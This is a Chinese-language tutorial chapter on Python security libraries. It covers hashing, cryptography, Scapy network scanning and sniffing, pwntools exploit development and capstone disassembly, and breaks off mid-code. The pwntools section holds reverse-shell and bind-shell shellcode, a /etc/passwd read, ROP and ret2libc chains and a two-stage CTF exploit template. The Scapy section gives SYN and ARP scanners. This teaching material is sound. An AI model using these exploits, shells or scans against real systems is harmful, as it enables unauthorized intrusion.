




Python 安全生态的真正威力在于其成熟的第三方库体系。本章深入剖析六大核心安全库——hashlib、cryptography、Scapy、pwntools、capstone 和 keystone，从底层原理到实战应用逐层展开，帮助你建立完整的安全工具链知识体系。

## 1. 哈希与摘要：hashlib

### 1.1 哈希函数的理论基础

哈希函数（Hash Function）是密码学的基石之一，它将任意长度的输入映射为固定长度的输出。一个合格的密码学哈希函数必须满足三个核心性质：

- **抗原像性（Pre-image Resistance）**：给定哈希值 `h`，在计算上不可行找到原始输入 `m` 使得 `hash(m) = h`
- **抗第二原像性（Second Pre-image Resistance）**：给定输入 `m1`，在计算上不可行找到另一个输入 `m2` 使得 `hash(m1) = hash(m2)`
- **抗碰撞性（Collision Resistance）**：在计算上不可行找到任意两个不同的输入 `m1` 和 `m2` 使得 `hash(m1) = hash(m2)`

### 1.2 hashlib 核心 API

Python 标准库 `hashlib` 封装了 OpenSSL 的哈希算法实现，提供统一的接口：

```python
import hashlib

# ========== 基本哈希计算 ==========
# MD5：128位输出，已不安全，仅用于校验和
md5_hash = hashlib.md5(b'password').hexdigest()
# 输出：5f4dcc3b5aa765d61d8327deb882cf99

# SHA1：160位输出，已被证明存在碰撞
sha1_hash = hashlib.sha1(b'password').hexdigest()

# SHA256：256位输出，当前推荐的安全哈希算法
sha256_hash = hashlib.sha256(b'password').hexdigest()

# SHA512：512位输出，更高安全级别
sha512_hash = hashlib.sha512(b'password').hexdigest()

# ========== 查看可用算法 ==========
print(hashlib.algorithms_available)
# {'md5', 'sha1', 'sha224', 'sha256', 'sha384', 'sha512',
#  'sha3_224', 'sha3_256', 'sha3_384', 'sha3_512', 'blake2b', 'blake2s', ...}

# ========== 增量更新（流式处理大文件） ==========
h = hashlib.sha256()
h.update(b'First chunk of data')
h.update(b'Second chunk of data')  # 等价于一次性 update 整块
result = h.hexdigest()
```

### 1.3 文件哈希计算

处理大文件时，必须使用流式读取以避免内存溢出：

```python
import hashlib

def file_hash(filepath, algorithm='sha256', chunk_size=8192):
    """计算文件的哈希值，支持流式读取大文件

    Args:
        filepath: 文件路径
        algorithm: 哈希算法名称（md5, sha1, sha256, sha512 等）
        chunk_size: 每次读取的字节数，默认 8KB

    Returns:
        十六进制哈希字符串
    """
    h = hashlib.new(algorithm)
    with open(filepath, 'rb') as f:
        while True:
            chunk = f.read(chunk_size)
            if not chunk:
                break
            h.update(chunk)
    return h.hexdigest()

# 实用：计算并比对文件哈希
def verify_file(filepath, expected_hash, algorithm='sha256'):
    """验证文件完整性"""
    actual = file_hash(filepath, algorithm)
    if actual.lower() == expected_hash.lower():
        print(f"[+] 文件完整性验证通过: {actual}")
        return True
    else:
        print(f"[-] 文件完整性验证失败!")
        print(f"    期望: {expected_hash}")
        print(f"    实际: {actual}")
        return False

# 批量计算目录下所有文件的哈希（文件完整性审计）
import os

def directory_hash_audit(root_dir, algorithm='sha256'):
    """对目录下所有文件做哈希审计，用于完整性监控"""
    results = {}
    for dirpath, _, filenames in os.walk(root_dir):
        for fname in filenames:
            fpath = os.path.join(dirpath, fname)
            try:
                results[fpath] = file_hash(fpath, algorithm)
            except PermissionError:
                results[fpath] = "PERMISSION_DENIED"
            except OSError as e:
                results[fpath] = f"ERROR: {e}"
    return results
```

### 1.4 安全警告：算法选择指南

| 算法 | 输出长度 | 碰撞攻击 | 适用场景 | 安全等级 |
|------|---------|---------|---------|---------|
| MD5 | 128 bit | 已破解（2004年） | 文件校验和、非安全场景 | ❌ 不安全 |
| SHA-1 | 160 bit | 已破解（2017年 SHAttered） | Git 对象标识（非安全） | ❌ 不安全 |
| SHA-256 | 256 bit | 无已知攻击 | 数字签名、证书、密码存储 | ✅ 推荐 |
| SHA-512 | 512 bit | 无已知攻击 | 高安全性需求场景 | ✅ 推荐 |
| SHA3-256 | 256 bit | 无已知攻击 | 后量子安全储备 | ✅ 前沿 |
| BLAKE2b | 512 bit | 无已知攻击 | 高性能哈希需求 | ✅ 推荐 |

**关键原则**：密码存储永远不要直接使用哈希函数，必须配合加盐（salt）和慢哈希算法（如 bcrypt、argon2）。`hashlib` 的哈希速度太快，不适合直接用于密码场景。

```python
# ❌ 错误：直接哈希密码
password_hash = hashlib.sha256(b'my_password').hexdigest()

# ✅ 正确：使用 bcrypt（需要 pip install bcrypt）
import bcrypt
salt = bcrypt.gensalt(rounds=12)  # cost factor = 12
password_hash = bcrypt.hashpw(b'my_password', salt)
# 验证
is_valid = bcrypt.checkpw(b'my_password', password_hash)
```

---

## 2. 现代加密框架：cryptography

### 2.1 密码学体系概览

`cryptography` 是 Python 生态中最权威、最安全的加密库，由 PyCA（Python Cryptographic Authority）维护。它提供两个层级的 API：

- **Fernet 接口**：高层 API，开箱即用，适合快速实现加密需求
- **hazmat 接口**：低层 API（"Hazardous Materials"），提供原始密码学原语，适合需要精细控制的场景



### 2.2 Fernet 对称加密

Fernet 是一种基于 AES-128-CBC 的认证加密方案，内置 HMAC-SHA256 完整性校验：

```python
from cryptography.fernet import Fernet, InvalidToken
import base64

# ========== 基本使用 ==========
# 生成密钥（32 字节 URL-safe base64 编码）
key = Fernet.generate_key()
cipher = Fernet(key)

# 加密（自动添加时间戳和 HMAC）
plaintext = b'Top secret: nuclear launch codes'
encrypted = cipher.encrypt(plaintext)
print(encrypted)  # b'gAAAAABh...'

# 解密（自动验证 HMAC 和时间戳）
decrypted = cipher.decrypt(encrypted)
print(decrypted)  # b'Top secret: nuclear launch codes'

# ========== 带 TTL 的加密（防重放攻击） ==========
import time

encrypted_ttl = cipher.encrypt(plaintext)

# 30 秒内解密有效
try:
    decrypted = cipher.decrypt(encrypted_ttl, ttl=30)
except InvalidToken:
    print("令牌已过期或被篡改")

# ========== 从密码派生密钥 ==========
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
import base64, os

def derive_key_from_password(password: str, salt: bytes = None):
    """从用户密码派生 Fernet 密钥"""
    if salt is None:
        salt = os.urandom(16)  # 随机 16 字节盐值
    kdf = PBKDF2HMAC(
        algorithm=hashes.SHA256(),
        length=32,
        salt=salt,
        iterations=600_000,  # OWASP 2023 推荐值
    )
    key = base64.urlsafe_b64encode(kdf.derive(password.encode()))
    return key, salt

# 使用示例
password = "my_strong_password_2024"
key, salt = derive_key_from_password(password)
cipher = Fernet(key)
encrypted = cipher.encrypt(b"Secret data")

# 解密时需要相同的 salt 和 password
key2, _ = derive_key_from_password(password, salt)
cipher2 = Fernet(key2)
decrypted = cipher2.decrypt(encrypted)
```

### 2.3 RSA 非对称加密

RSA 是最广泛使用的非对称加密算法，核心基于大整数分解的计算困难性：

```python
from cryptography.hazmat.primitives.asymmetric import rsa, padding
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.backends import default_backend

# ========== 生成 RSA 密钥对 ==========
private_key = rsa.generate_private_key(
    public_exponent=65537,    # 标准公共指数，兼顾安全与性能
    key_size=4096,            # 推荐 4096 位（2048 为最低安全要求）
    backend=default_backend()
)
public_key = private_key.public_key()

# ========== 加密与解密（OAEP 填充） ==========
plaintext = b'RSA encrypted message'

encrypted = public_key.encrypt(
    plaintext,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)

decrypted = private_key.decrypt(
    encrypted,
    padding.OAEP(
        mgf=padding.MGF1(algorithm=hashes.SHA256()),
        algorithm=hashes.SHA256(),
        label=None
    )
)
print(decrypted)  # b'RSA encrypted message'

# ========== 数字签名 ==========
message = b'This message needs to be signed'

# 签名（私钥签名）
signature = private_key.sign(
    message,
    padding.PSS(
        mgf=padding.MGF1(hashes.SHA256()),
        salt_length=padding.PSS.MAX_LENGTH
    ),
    hashes.SHA256()
)

# 验签（公钥验证）
try:
    public_key.verify(
        signature,
        message,
        padding.PSS(
            mgf=padding.MGF1(hashes.SHA256()),
            salt_length=padding.PSS.MAX_LENGTH
        ),
        hashes.SHA256()
    )
    print("[+] 签名验证通过")
except Exception as e:
    print(f"[-] 签名验证失败: {e}")

# ========== 密钥序列化与存储 ==========
# 私钥导出（PEM 格式，加密保护）
pem_private = private_key.private_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PrivateFormat.PKCS8,
    encryption_algorithm=serialization.BestAvailableEncryption(b'key_password')
)

# 公钥导出（PEM 格式）
pem_public = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# 保存到文件
with open('private_key.pem', 'wb') as f:
    f.write(pem_private)
with open('public_key.pem', 'wb') as f:
    f.write(pem_public)

# 从文件加载
with open('private_key.pem', 'rb') as f:
    loaded_key = serialization.load_pem_private_key(
        f.read(),
        password=b'key_password',
        backend=default_backend()
    )
```

### 2.4 AES-GCM 认证加密

AES-GCM 是现代应用推荐的对称加密模式，同时提供机密性、完整性和认证：

```python
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import os

def aes_gcm_encrypt(plaintext: bytes, key: bytes = None, associated_data: bytes = None):
    """AES-256-GCM 认证加密

    Args:
        plaintext: 待加密数据
        key: 256 位密钥（32 字节），为 None 时自动生成
        associated_data: 附加认证数据（不加密但会被完整性保护）

    Returns:
        (key, nonce, ciphertext) 三元组
    """
    if key is None:
        key = AESGCM.generate_key(bit_length=256)
    aesgcm = AESGCM(key)
    nonce = os.urandom(12)  # 96 位随机 nonce，绝不复用
    ciphertext = aesgcm.encrypt(nonce, plaintext, associated_data)
    return key, nonce, ciphertext

def aes_gcm_decrypt(key: bytes, nonce: bytes, ciphertext: bytes, associated_data: bytes = None):
    """AES-256-GCM 认证解密"""
    aesgcm = AESGCM(key)
    return aesgcm.decrypt(nonce, ciphertext, associated_data)

# 使用示例
key, nonce, ct = aes_gcm_encrypt(b"Top secret data", associated_data=b"context-v1")
plaintext = aes_gcm_decrypt(key, nonce, ct, associated_data=b"context-v1")
print(plaintext)  # b"Top secret data"
```

### 2.5 混合加密实践

实际应用中通常结合非对称和对称加密——RSA 传递 AES 密钥，AES 加密数据：

```python
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
from cryptography.hazmat.primitives.asymmetric import padding as asym_padding
from cryptography.hazmat.primitives import hashes
import os, json

def hybrid_encrypt(plaintext: bytes, recipient_public_key):
    """混合加密：RSA + AES-GCM"""
    # 1. 生成随机 AES 密钥
    aes_key = AESGCM.generate_key(bit_length=256)
    aesgcm = AESGCM(aes_key)
    nonce = os.urandom(12)

    # 2. AES-GCM 加密数据
    ciphertext = aesgcm.encrypt(nonce, plaintext, None)

    # 3. RSA 加密 AES 密钥
    encrypted_key = recipient_public_key.encrypt(
        aes_key,
        asym_padding.OAEP(
            mgf=asym_padding.MGF1(algorithm=hashes.SHA256()),
            algorithm=hashes.SHA256(),
            label=None
        )
    )

    # 4. 打包传输
    return json.dumps({
        'encrypted_key': encrypted_key.hex(),
        'nonce': nonce.hex(),
        'ciphertext': ciphertext.hex()
    }).encode()

def hybrid_decrypt(payload: bytes, recipient_private_key):
    """混合解密"""
    data = json.loads(payload)

    # 1. RSA 解密 AES 密钥
    aes_key = recipient_private_key.decrypt(
        bytes.fromhex(data['encrypted_key']),
        asym_padding.OAEP(
            mgf=asym_padding.MGF1(algorithm=hashes.SHA256()),
            algorithm=hashes.SHA256(),
            label=None
        )
    )

    # 2. AES-GCM 解密数据
    aesgcm = AESGCM(aes_key)
    return aesgcm.decrypt(bytes.fromhex(data['nonce']), bytes.fromhex(data['ciphertext']), None)
```

---

## 3. 网络包构造与嗅探：Scapy

### 3.1 Scapy 架构与设计哲学

Scapy 是一个强大的交互式数据包操作程序，其核心设计理念是"能够伪造或解码任何网络协议的包，在线路上发送它们，捕获匹配请求/响应的包，并且比大多数其他工具更高效"。

Scapy 的分层模型基于 OSI 模型，每层是一个类，使用 `/` 运算符将各层串联：



### 3.2 包构造与发送

```python
from scapy.all import *

# ========== 基本包构造 ==========
# IP 层
ip = IP(dst="192.168.1.100", src="192.168.1.1")

# TCP 层（SYN 包）
tcp = TCP(dport=80, sport=12345, flags="S", seq=1000)

# 组合
packet = ip / tcp
print(packet.summary())  # IP / TCP 192.168.1.1:ftp_data > 192.168.1.100:http S

# 查看包的详细信息
packet.show()

# 序列化为原始字节
raw_bytes = bytes(packet)

# ========== 常用发送函数 ==========
# send() —— 第三层（IP 层）发送，自动处理路由
send(IP(dst="8.8.8.8")/ICMP())

# sendp() —— 第二层（以太网帧）发送
sendp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"))

# sr1() —— 发送并等待一个响应
response = sr1(IP(dst="8.8.8.8")/ICMP(), timeout=2, verbose=0)
if response:
    print(f"收到响应: {response.src} - {response[ICMP].type}")

# sr() —— 发送并等待所有响应
answered, unanswered = sr(IP(dst="192.168.1.0/24")/ICMP(), timeout=2)

# srp() —— 第二层发送并等待响应（需要以太网头）
answered, unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"), timeout=2)
```

### 3.3 ARP 扫描实战

ARP 扫描是内网主机发现的基础技术，通过发送 ARP 请求并收集响应来枚举活跃主机：

```python
from scapy.all import *
from datetime import datetime

def arp_scan(network, interface=None, timeout=2):
    """ARP 扫描：发现内网活跃主机

    Args:
        network: 目标网段，如 '192.168.1.0/24'
        interface: 指定网卡名称
        timeout: 等待响应的秒数

    Returns:
        设备列表 [{'ip': str, 'mac': str, 'vendor': str}]
    """
    print(f"[*] 开始 ARP 扫描: {network}")
    start = datetime.now()

    # 构造 ARP 请求广播包
    arp_request = ARP(pdst=network)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    packet = broadcast / arp_request

    # 发送并收集响应
    answered, _ = srp(packet, timeout=timeout, iface=interface, verbose=0)

    devices = []
    for sent, received in answered:
        devices.append({
            'ip': received.psrc,
            'mac': received.hwsrc
        })

    elapsed = (datetime.now() - start).total_seconds()
    print(f"[+] 发现 {len(devices)} 台主机，耗时 {elapsed:.2f} 秒")

    for device in devices:
        print(f"    {device['ip']:15s}  {device['mac']}")

    return devices

# 使用
devices = arp_scan("192.168.1.0/24")
```

### 3.4 端口扫描

```python
from scapy.all import *
from concurrent.futures import ThreadPoolExecutor

def syn_scan(target, ports, timeout=1):
    """TCP SYN 隐蔽扫描（半开扫描）

    原理：发送 SYN 包，根据响应判断端口状态
    - SYN-ACK（flags='SA'）：端口开放
    - RST（flags='R'）：端口关闭
    - 无响应：端口被过滤（防火墙）
    """
    open_ports = []
    closed_ports = []
    filtered_ports = []

    for port in ports:
        packet = IP(dst=target) / TCP(dport=port, flags="S")
        response = sr1(packet, timeout=timeout, verbose=0)

        if response is None:
            filtered_ports.append(port)
        elif response.haslayer(TCP):
            if response[TCP].flags == "SA":  # SYN-ACK
                # 发送 RST 关闭连接（不完成三次握手）
                rst = IP(dst=target) / TCP(dport=port, flags="R",
                                           seq=response[TCP].ack)
                send(rst, verbose=0)
                open_ports.append(port)
            elif response[TCP].flags == "R":  # RST
                closed_ports.append(port)
        elif response.haslayer(ICMP):
            filtered_ports.append(port)

    return {
        'open': sorted(open_ports),
        'closed': sorted(closed_ports),
        'filtered': sorted(filtered_ports)
    }

# 扫描常见端口
result = syn_scan("192.168.1.1", [22, 80, 443, 8080, 3306, 5432, 6379])
print(f"开放端口: {result['open']}")
print(f"关闭端口: {result['closed']}")
print(f"被过滤:   {result['filtered']}")
```

### 3.5 流量嗅探与分析

```python
from scapy.all import *
from collections import Counter

def packet_callback(packet):
    """嗅探回调函数"""
    if packet.haslayer(TCP):
        src = packet[IP].src
        dst = packet[IP].dst
        dport = packet[TCP].dport
        flags = packet[TCP].flags
        print(f"TCP {src} -> {dst}:{dport} [{flags}]")

    elif packet.haslayer(DNS) and packet[DNS].qr == 0:
        # DNS 查询请求
        query = packet[DNS].qd.qname.decode()
        print(f"DNS 查询: {query}")

# 开始嗅探（需要 root 权限）
sniff(filter="tcp port 80", prn=packet_callback, count=100, iface="eth0")

# ========== 流量统计分析 ==========
def analyze_pcap(pcap_file):
    """分析 PCAP 文件的流量统计"""
    packets = rdpcap(pcap_file)

    # 协议分布
    protocols = Counter()
    # 源 IP 统计
    src_ips = Counter()
    # 目标端口统计
    dst_ports = Counter()

    for pkt in packets:
        if pkt.haslayer(IP):
            src_ips[pkt[IP].src] += 1
            if pkt.haslayer(TCP):
                protocols['TCP'] += 1
                dst_ports[pkt[TCP].dport] += 1
            elif pkt.haslayer(UDP):
                protocols['UDP'] += 1
                dst_ports[pkt[UDP].dport] += 1
            elif pkt.haslayer(ICMP):
                protocols['ICMP'] += 1

    print("=== 协议分布 ===")
    for proto, count in protocols.most_common():
        print(f"  {proto}: {count}")

    print("\n=== Top 10 源 IP ===")
    for ip, count in src_ips.most_common(10):
        print(f"  {ip}: {count}")

    print("\n=== Top 10 目标端口 ===")
    for port, count in dst_ports.most_common(10):
        print(f"  {port}: {count}")
```

### 3.6 Scapy 安全警告

Scapy 的包构造能力意味着它既可以用于安全测试，也可以被恶意使用。在使用 Scapy 时必须遵守以下原则：

1. **只在授权范围内使用**——未经授权的网络扫描和包伪造是违法行为
2. **在隔离环境中测试**——使用虚拟机或专用测试网络
3. **注意网络接口选择**——误操作可能影响生产网络
4. **SYN 扫描可能触发 IDS 告警**——在生产环境中使用前务必通知安全团队

---

## 4. 漏洞利用开发：pwntools

### 4.1 pwntools 体系结构

pwntools 是二进制漏洞利用开发的标准工具库，被 CTF 玩家和安全研究员广泛使用：



### 4.2 基本连接与交互

```python
from pwn import *

# ========== 连接目标 ==========
# 远程连接
p = remote('192.168.1.100', 1337, timeout=5)

# 本地进程（调试用）
p = process('./vulnerable_binary')

# 带参数的本地进程
p = process(['./vulnerable_binary', '--arg1', 'value'])

# GDB 附加调试
p = gdb.debug('./vulnerable_binary', '''
    break main
    continue
''')

# ========== 数据接收 ==========
data = p.recv(1024)           # 接收最多 1024 字节
data = p.recvuntil(b':')     # 接收到指定分隔符
data = p.recvline()           # 接收一行（含换行符）
data = p.recvline_contains(b'password')  # 接收包含指定内容的行
data = p.recvall(timeout=5)  # 接收所有数据直到超时

# ========== 数据发送 ==========
p.send(b'raw data')           # 发送原始数据
p.sendline(b'with newline')   # 发送并追加换行符
p.sendafter(b':', b'input')   # 等待分隔符后发送
p.sendlineafter(b':', b'input')  # 等待分隔符后发送（带换行）

# ========== 交互模式 ==========
p.interactive()  # 切换到手动交互，获得 shell
```

### 4.3 数据打包与解包

```python
from pwn import *

# ========== 地址打包（小端序） ==========
# 64 位地址打包
addr = p64(0x7ffff7a3d000)  # 8 字节小端序

# 32 位地址打包
addr = p32(0x08048000)      # 4 字节小端序

# 解包
value = u64(addr)           # 解包为整数
value = u32(p32(0xdeadbeef))

# ========== 构造 exploit payload ==========
# 典型的栈溢出 payload
payload = b'A' * 72              # 填充到返回地址偏移
payload += p64(0x401234)         # 覆盖返回地址（跳转目标）
payload += p64(0x7fffffffe000)   # 新的 RBP 值

# 格式化字符串攻击 payload
payload = b'%1$p.%2$p.%3$p'     # 泄露栈上的值

# 堆利用中的 fastbin attack payload
fake_chunk  = p64(0)             # prev_size
fake_chunk += p64(0x41)          # size (fastbin 范围)
fake_chunk += p64(0x602040)      # fd 指针（目标地址）
fake_chunk += p64(0)             # bk 指针
```

### 4.4 Shellcraft 汇编模板

pwntools 内置了各种架构和场景的 shellcode 生成器：

```python
from pwn import *

# ========== 基本 Shellcode ==========
# x86-64 execve("/bin/sh") shellcode
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())
print(f"Shellcode 长度: {len(shellcode)} 字节")

# x86 execve shellcode（32 位）
context.arch = 'i386'
shellcode = asm(shellcraft.sh())

# ARM 架构
context.arch = 'arm'
shellcode = asm(shellcraft.sh())

# ========== 特定场景 Shellcode ==========
# execve 指定命令
shellcode = asm(shellcraft.execve('/bin/cat', ['/bin/cat', '/etc/passwd']))

# 反向 shell
shellcode = asm(shellcraft.connect('192.168.1.1', 4444) + shellcraft.sh())

# bind shell（监听端口）
shellcode = asm(shellcraft.bindsh(4444))

# 无 null 字节的 shellcode（绕过字符串终止检查）
shellcode = asm(shellcraft.sh())
assert b'\x00' not in shellcode, "Shellcode 包含 null 字节!"

# ========== shellcode 查看 ==========
# 反汇编查看生成的 shellcode
print(disasm(shellcode, arch='amd64'))
```

### 4.5 ROP 链构造

Return-Oriented Programming（ROP）是绕过 DEP/NX 保护的核心技术：

```python
from pwn import *

# ========== 加载 ELF 并构建 ROP 链 ==========
context.binary = elf = ELF('./vulnerable_binary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 自动构建 ROP 链
rop = ROP(elf)

# 使用 gadgets
rop.raw(rop.find_gadget(['pop rdi', 'ret'])[0])  # pop rdi; ret
rop.raw(0x402000)                                  # /bin/sh 地址
rop.raw(rop.find_gadget(['ret'])[0])               # 栈对齐（ret）
rop.raw(elf.symbols['system'])                     # 调用 system()

# 打印 ROP 链
print(rop.dump())

# ========== Libc ROP（已泄露 libc 基址） ==========
libc.address = 0x7ffff7dc0000  # 泄露的 libc 基址

rop_libc = ROP(libc)
rop_libc.call('system', [next(libc.search(b'/bin/sh'))])
rop_libc.call('exit', [0])

# 完整 payload
payload = b'A' * 72          # 填充
payload += rop_libc.chain()   # ROP 链

# ========== ret2libc 攻击模板 ==========
def ret2libc(offset, libc_base):
    """ret2libc 攻击模板"""
    libc.address = libc_base
    rop = ROP(libc)
    rop.call('system', [next(libc.search(b'/bin/sh'))])
    return flat(b'A' * offset, rop.chain())
```

### 4.6 完整漏洞利用模板

```python
from pwn import *

# ========== 环境配置 ==========
context(os='linux', arch='amd64', log_level='debug')
context.binary = elf = ELF('./vulnerable_binary')

# ========== 连接 ==========
def conn():
    if args.REMOTE:
        return remote('challenge.ctf.com', 1337)
    elif args.GDB:
        return gdb.debug(elf.path, '''
            break *main+100
            continue
        ''')
    else:
        return process(elf.path)

# ========== 漏洞利用 ==========
def exploit():
    p = conn()

    # Step 1: 泄露 libc 地址
    payload_leak = flat({
        72: elf.got['puts'],        # 覆盖返回地址为 PLT
        80: elf.symbols['main'],    # 返回到 main 执行第二阶段
    })
    p.sendlineafter(b'>', payload_leak)

    # 接收泄露的地址
    p.recvline()  # 消耗换行
    leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
    log.success(f'泄露的 puts 地址: {hex(leaked)}')

    # 计算 libc 基址
    libc_base = leaked - libc.symbols['puts']
    libc.address = libc_base
    log.success(f'libc 基址: {hex(libc_base)}')

    # Step 2: 构造 ROP 链获取 shell
    rop = ROP(libc)
    rop.call('system', [next(libc.search(b'/bin/sh'))])

    payload_exploit = flat({
        72: rop.chain()
    })
    p.sendlineafter(b'>', payload_exploit)

    p.interactive()

if __name__ == '__main__':
    exploit()
```

---

## 5. 反汇编引擎：capstone

### 5.1 反汇编原理

反汇编是将机器码（二进制字节）转换为人类可读的汇编指令的过程。capstone 是一个轻量级、跨平台的反汇编框架，支持多种架构：

| 架构 | 模式 | 典型应用 |
|------|------|---------|
| x86 | 16/32/64 位 | Windows/Linux 桌面程序分析 |
| ARM | ARM/Thumb/AArch64 | IoT 设备、Android 应用分析 |
| MIPS | 32/64 位 | 路由器固件分析 |
| PowerPC | 32/64 位 | 游戏主机、嵌入式系统 |
| RISC-V | 32/64 位 | 新兴嵌入式平台 |

### 5.2 基本反汇编

```python
from capstone import *

# ========== x86-64 反汇编 ==========
code = (
    b"\x55"                    # push rbp
    b"\x48\x89\xe5"            # mov rbp, rsp
    b"\x89\x7d\xfc"            # mov [rbp-0x4], edi
    b"\x48\x83\xec\x10"        # sub rsp, 0x10
    b"\xb8\x01\x00\x00\x00"    # mov eax, 0x1
    b"\xc3"                    # ret
)

md = Cs(CS_ARCH_X86, CS_MODE_64)
md.detail = True  # 启用详细信息（操作数、寄存器读写等）

print("地址        字节编码             指令")
print("-" * 60)
for insn in md.disasm(code, 0x1000):
    bytes_hex = insn.bytes.hex()
    print(f"0x{insn.address:08x}  {bytes_hex:<20s} {insn.mnemonic}\t{insn.op_str}")

# ========== 输出 ====
# 0x00001000  55                   push    rbp
# 0x00001001  4889e5               mov     rbp, rsp
# 0x00001004  897dfc               mov     dword ptr [rbp - 4], edi
# 0x00001007  4883ec10             sub     rsp, 0x10
# 0x0000100b  b801000000           mov     eax, 1
# 0x00001010  c3                   ret

# ========== ARM 反汇编 ==========
arm_code = b"\x00\x30\x90\xe5"  # ldr r3, [r0]
md_arm = Cs(CS_ARCH_ARM, CS_MODE_ARM)
for insn in md_arm.disasm(arm_code, 0x8000):
    print(f"0x{insn.address:08x}: {insn.mnemonic}\t{insn.op_str}")

# ========== MIPS 反汇编 ==========
mips_code = b"\x21\x08\x00\x00"  # addu $1, $0, $0
md_mips = Cs(CS_ARCH_MIPS, CS_MODE_MIPS32 + CS_MODE_BIG_ENDIAN)
for insn in md_mips.disasm(mips_code, 0x1000):
    print(f"0x{insn.address:08x}: {insn.mnemonic}\t{insn.op_str}")
```

### 5.3 详细指令分析

```python
from capstone import *

def disassemble_with_detail(code, arch, mode, base_addr=0x1000):
    """详细反汇编，展示每条指令的所有信息"""
    md = Cs(arch, mode)
    md.detail = True

    for insn in md.disasm(code, base_addr):
        print(f"\n{'='*50}")
        print(f"地址:    0x{insn.address:08x}")
        print(f"助记符:  {insn.mnemonic}")
        print(f"操作数:  {insn.op_str}")
        print(f"字节:    {insn.bytes.hex()}")
        print(f"大小:    {insn.size} 字节")

        # 读写寄存器信息
